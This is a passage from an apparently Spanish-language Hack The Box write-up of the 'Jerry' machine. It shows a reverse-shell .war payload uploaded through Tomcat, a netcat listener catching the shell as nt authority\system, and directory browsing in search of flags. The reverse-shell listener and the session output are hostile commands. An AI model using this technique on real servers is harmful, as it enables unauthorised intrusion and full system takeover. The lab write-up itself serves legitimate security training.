 Lo seleccionamos y ya lo subimos, ahí mismo observamos que el archivo es tipo **.war**.

![](/assets/images/htb-writeup-jerry/Captura5.png)

<h2 id="Exploit">Accediendo a la Máquina</h2>

Una vez subido el archivo que creamos con el Payload, que es una **Reverse Shell**, ya solamente debemos alzar una netcat y activar el Payload:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```
Le damos click al archivo **.war**:

<br>
<p align="center">
<img src="/assets/images/htb-writeup-jerry/Captura6.png">
</p>

¡Y listo! Ya estamos dentro, directamente somos Root:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...

connect to [10.10.14.10] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
C:\apache-tomcat-7.0.88>whoami
nt authority\system
```
Y ya solamente es buscar las flags, que normalmente siempre están alojadas en la carpeta usuarios, dentro del escritorio del usuario y del administrados:
```bash
:\apache-tomcat-7.0.88>cd C:\
cd C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\

06/19/2018  03:07 AM    <DIR>          apache-tomcat-7.0.88
08/22/2013  05:52 PM    <DIR>          PerfLogs
06/19/2018  05:42 PM    <DIR>          Program Files
06/19/2018  05:42 PM    <DIR>          Program Files (x86)
06/18/2018  10:31 PM    <DIR>          Users
01/21/2022  08:53 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)   2,418,688,000 bytes free

C:\>cd Users
```